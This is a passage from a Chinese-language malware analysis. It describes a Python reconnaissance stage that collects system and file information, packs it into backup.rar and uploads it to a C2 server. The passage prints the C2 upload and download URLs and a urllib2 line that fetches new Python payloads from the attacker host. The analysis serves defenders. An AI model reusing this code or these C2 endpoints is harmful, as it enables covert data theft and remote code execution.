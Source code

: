 第二段`python`代码类似于一个侦察者:

##### <a class="reference-link" name="a.%E6%94%B6%E9%9B%86%E4%BF%A1%E6%81%AF"></a>a.收集信息

其会收集**系统位数信息,系统信息,所安装的APP列表, 文件列表, 下载文件列表, 盘符信息**等,并且将这些数据写入对应的`txt`文件中于恶意样本所创造的工作目录下

[![](https://p1.ssl.qhimg.com/t01aaa01a28e61b98f4.png)](https://p1.ssl.qhimg.com/t01aaa01a28e61b98f4.png)

##### <a class="reference-link" name="b.%E6%89%93%E5%8C%85%E6%89%80%E6%94%B6%E9%9B%86%E7%9A%84%E4%BF%A1%E6%81%AF"></a>b.打包所收集的信息

首先先删除`backup.rar`文件,再将工作目录下的所有txt文件利用**zip -m -z**命令进行打包,输出为`backup.rar`文件

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d821b17f1cf121dc.png)

##### <a class="reference-link" name="c.%E5%B0%86%E6%94%B6%E9%9B%86%E7%9A%84%E4%BF%A1%E6%81%AF%E5%9B%9E%E4%BC%A0%E5%88%B0C2"></a>c.将收集的信息回传到C2

通过创建`Http`链接,将`rar`的数据组成**报文**,发送到`C2`: `http://crphone.mireene.com/plugin/editor/Templates/upload.php`

[![](https://p2.ssl.qhimg.com/dm/1024_340_/t01de5efdc60976467f.png)](https://p2.ssl.qhimg.com/dm/1024_340_/t01de5efdc60976467f.png)

##### <a class="reference-link" name="d.%E5%90%91C2%E8%AF%B7%E6%B1%82%E8%8E%B7%E5%8F%96%E6%96%B0%E7%9A%84python%E4%BB%A3%E7%A0%81"></a>d.向C2请求获取新的python代码

更新代码:

```
urllib2.urlopen(urllib2.Request('http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=new')).read()
```

从`http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=new`获取新的`Python`载荷

[![](https://p0.ssl.qhimg.com/dm/1024_61_/t010af7b8f1740709db.png)](https://p0.ssl.qhimg.com/dm/1024_61_/t010af7b8f1740709db.png)

其创造一个线程,**循环执行收集机器信息并且上传,不断向C2请求执行新的python代码**,中间休息`300`秒,这也解释了为什么在打包信息的时候需要先删除`backup.rar`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t019cc1be4762e690b0.png)

从本次C2的域名: `crphone.mireene.com`来看,应该是一个卖智能手机的网站

[![](https://p0.ssl.qhimg.com/dm/1024_510_/t01574c9fe8e65b5a51.png)](https://p0.ssl.qhimg.com/dm/1024_510_/t01574c9fe8e65b5a51.png)

[![](https://p1.ssl.qhimg.com/dm/1024_376_/t0187b47a614c9fb49e.png)](https://p1.ssl.qhimg.com/dm/1024_376_/t0187b47a614c9fb49e.png)
